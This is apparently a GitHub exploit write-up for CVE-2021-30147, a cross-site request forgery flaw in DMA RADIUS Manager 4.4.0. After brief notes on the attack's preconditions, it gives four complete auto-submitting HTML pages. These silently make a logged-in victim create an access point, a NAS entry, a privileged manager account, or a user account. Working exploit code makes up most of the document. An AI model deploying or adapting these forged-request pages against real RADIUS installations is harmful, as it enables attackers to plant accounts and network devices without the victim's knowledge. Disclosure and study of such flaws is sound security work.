 # CVE-2021-30147 (DMA RADIUS Manager 4.4.0)

## CSRF - Creating Access Points

This exploit requires an attacker to have access to the web interface of the RADIUS Manager but an account isn't required (instead, this CSRF can be exploited in order to create an account for the attacker.). It also requires the victim to browse to our custom crafted webpage & be already logged in as a RADIUS user with the appropriate privileges for the certain action we want them to execute (EX: If we want the victim's account to create a new user account for us, the victim must be logged in as someone with sufficient privileges that allows them to create an account). 

By crafting a web page with the appropriate parameters for a POST request to the appropriate endpoint & having a victim visit our webpage, we're able to do various things by exploiting this vulnerability, such as:

* create a regular user or manager account
* create an access point
* create a new IP pool
* create a new CMTS
* create a new NAS
* create a new service plan

### Creating A New Access Point

The HTML for the website we'd use is:

```html
<html>

<body>
    <!-- change url to appropriate URL -->
    <form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_ap" method="POST">
        <input type="hidden" name="enable" value="1" />
        <input type="hidden" name="name" value="restbar" />
        <input type="hidden" name="ip" value="192.168.1.2" />
        <input type="hidden" name="accessmode" value="0" />
        <input type="hidden" name="community" value="5" />
        <input type="hidden" name="apiusername" value="S" />
        <input type="hidden" name="apipassword" value="S" />
        <input type="hidden" name="apiver" value="0" />
        <input type="hidden" name="description" value="" />
        <input type="hidden" name="Submit" value="Store AP" />
        <input type="hidden" name="id" value="" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

All we need now is a victim that's logged in to browse to our webpage...and:

![CSRF adding access pt](demos/csrf-ap-2021-04-05-181829.gif)



### Creating A New NAS

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_nas" method="POST">
			<input type="hidden" name="name" value="CSRF_EXAMPLE" />
			<input type="hidden" name="nasip" value="192.168.1.6" />
			<input type="hidden" name="type" value="0" />
			<input type="hidden" name="secret" value="CSRF_EX" />
			<input type="hidden" name="coamode" value="0" />
			<input type="hidden" name="apiusername" value="" />
			<input type="hidden" name="apipassword" value="" />
			<input type="hidden" name="apiver" value="0" />
			<input type="hidden" name="descr" value="" />
			<input type="hidden" name="Submit" value="Add NAS" />
		</form>
	<script>
		document.forms[0].submit();
	</script>

	</body>
</html>
```

Once victim browses to our webpage...:

![CSRF adding NAS](demos/csrf-addnas-2021-04-05-191251.gif)



### Adding A New Manager Account

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_manager" method="POST">
			<input type="hidden" name="enablemanager" value="1" />
			<input type="hidden" name="managername" value="csrf_man" />
			<input type="hidden" name="password1" value="csrf" />
			<input type="hidden" name="password2" value="csrf" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="vatid" value="" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="perm_listusers" value="1" />
			<input type="hidden" name="perm_createusers" value="1" />
			<input type="hidden" name="Submit" value="Add manager" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And once victim browses to our webpage...:

![CSRF adding new manager account](demos/csrf-addmanager-2021-04-05-19103.gif)



### Adding A New User

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_user" method="POST">
			<input type="hidden" name="username" value="csrf_usr" />
			<input type="hidden" name="enableuser" value="1" />
			<input type="hidden" name="acctype" value="0" />
			<input type="hidden" name="password1" value="csrfusr" />
			<input type="hidden" name="password2" value="csrfusr" />
			<input type="hidden" name="maccm" value="" />
			<input type="hidden" name="mac" value="" />
			<input type="hidden" name="ipmodecpe" value="0" />
			<input type="hidden" name="simuse" value="1" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="taxid" value="" />
			<input type="hidden" name="srvid" value="0" />
			<input type="hidden" name="downlimit" value="0" />
			<input type="hidden" name="uplimit" value="0" />
			<input type="hidden" name="comblimit" value="0" />
			<input type="hidden" name="expiration" value="2021-04-06" />
			<input type="hidden" name="uptimelimit" value="00:00:00" />
			<input type="hidden" name="credits" value="0.00" />
			<input type="hidden" name="contractid" value="" />
			<input type="hidden" name="contractvalid" value="" />
			<input type="hidden" name="gpslat" value="" />
			<input type="hidden" name="gpslong" value="" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="superuser" value="{SUPERUSER}" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="groupid" value="1" />
			<input type="hidden" name="custattr" value="" />
			<input type="hidden" name="cnic" value="" />
			<input type="hidden" name="cnicfile1" value="(binary)" />
			<input type="hidden" name="cnicfile2" value="(binary)" />
			<input type="hidden" name="adduser" value="Add user" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And one last visit from our victim to our webpage...:

![CSRF adding a new user](demos/csrf-addusr-2021-04-05-191131.gif)
